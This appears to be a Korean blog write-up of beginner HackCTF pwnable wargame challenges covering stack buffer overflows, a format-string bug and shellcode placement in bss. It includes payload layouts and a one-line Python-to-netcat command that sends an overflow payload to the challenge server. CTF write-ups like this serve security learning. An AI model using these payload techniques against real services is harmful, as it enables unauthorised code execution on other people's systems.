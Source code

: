 ```yaml
---
layout: post
title:  "HackCTF Pwnable - first line"
excerpt: "for All Clear HackCTF"
date:   2020-02-23
categories: [wargame]
comments: true
---
```


### 1. Basic_BOF #1

binary :



![img](https://k.kakaocdn.net/dn/Qmd27/btqCbUwEpAQ/uAs84B8ONS8Jd1bSLrMgVK/img.png)NX bit , Partial RelRO



main :



![img](https://k.kakaocdn.net/dn/deHnH7/btqCcAYMczl/ctcgj8WsHcWLvaAnscOCu1/img.png)



뭐 굳이 쉘코드를 넣을 필요도 없다. 그냥 v5변수 값이 -559038737이면 되는데 이게 0xDEADBEEF이다. 

payload :



![img](https://k.kakaocdn.net/dn/qDDSo/btqCbhyTomw/EZbGrjMkM9azK5HbJQp941/img.png)



### 2. Basic_BOF #2

binary :



![img](https://k.kakaocdn.net/dn/GwpYi/btqCaSzsjbw/WWGUvbCmAgjx6lRjRmLoB1/img.png)



 

main : 



![img](https://k.kakaocdn.net/dn/dIpOaN/btqCevvsn1n/oLXo7yUcHyI6JaAL66K911/img.png)



이번에도 딱히 뭐 없다. 그냥 v5변수에 sup함수를 넣는다. 그럼 여기서 128바이트를 더미로 채우고 0804849b를 ret로 넘겨주면 된다.

payload :

dummy(128) + p32(0x0804849b)

$(python -c 'print "A"*128 + "\x9b\x84\x04\x08"'; cat) | nc ctf.j0n9hyun.xyz 3001

### 3. Basic_FSB

binary :



![img](https://k.kakaocdn.net/dn/baYotp/btqCckaM97S/RTfbntEvGEmkFEqlcRdJ1K/img.png)



main :



![img](https://k.kakaocdn.net/dn/EuAcJ/btqCeu4n4eX/r1S4IRCEewUVDsznAkHxt1/img.png)



vuln :



![img](https://k.kakaocdn.net/dn/cG6XkO/btqCeva9EXE/IRiXjpvCANw7Nkbcgxi5j1/img.png)



이 함수의 snprintf와 밑에 &format에서 fsb취약점이 터진다. 

flag :



![img](https://k.kakaocdn.net/dn/ds5pn8/btqCd0CsBqI/5koJMr7OJrFztYAXlYK4O0/img.png)



자 . fsb문제다.  Partial RelRO니까 GOT overwrite가 가능할 것이다. 

근데 아직 못풀음 ㅎㅎ 

### 4. 내 버퍼가 흘러넘친다!!!

binary :



![img](https://k.kakaocdn.net/dn/eskYay/btqCcCI4yQW/aRlrsLZGiuk8LQwc15sufK/img.png)



main :



![img](https://k.kakaocdn.net/dn/rwwkC/btqCeuQQGds/LArvHfcRZx4rJq6MWvOg51/img.png)



매우 간단하다. read함수로 name값을 50을 받아오는데 여기서 취약점이 발생한다. 한가지  신경써야할 점은 name변수가 bss영역에 존재하기 때문에 이를 이용해서 해결하는 점이다. 

payload :

dummy(13) + shellcode(24) + dummy(13)



![img](https://k.kakaocdn.net/dn/umjbX/btqCd1g4akZ/kXPcwTFFv6qRTbVRqzpNWk/img.png)



해결 후 확인해보니 , 초기화 되지 않는 정적변수인 name에 쉘코드를 넣고 , input에서 dummy를 넘겨준 후 name의 주소를 전송하는 풀이도 많은 것 같다. 
